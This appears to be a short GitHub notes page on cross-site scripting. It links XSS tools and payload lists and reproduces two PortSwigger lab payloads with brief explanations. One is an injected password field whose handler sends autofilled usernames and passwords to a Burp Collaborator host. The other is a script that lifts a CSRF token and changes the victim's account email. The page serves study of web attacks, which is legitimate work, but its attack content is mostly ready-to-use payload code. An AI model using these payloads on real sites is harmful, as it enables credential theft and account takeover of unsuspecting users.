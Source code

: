 ### Tools:

#### XSStrike
link:https://github.com/s0md3v/XSStrike
#### dalfox
link:https://github.com/hahwul/dalfox
#### ezXSS
link:https://github.com/ssl/ezXSS

### Payloads:

https://github.com/Proviesec/xss-payload-list
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### Portswigger payloads
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

The above payloads is used to steal victim username and password using burp collaborator.When the request is send and victim visits the vulnerable functionality
the it will autofill the username and password.It fetch the request when length is true which means password field is filled that's why length will be true and
request is triggered..Mode no-cors mean if the domain is changed (burb collaborator) still it didn't block the request. As a response it give username and 
password separeted by colon.


<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

The above script will be used to change the email address of victim.The script first send a request and wait for the response,from the response it will take the 
csrf token,use it send request to change the email address with test@test.com.
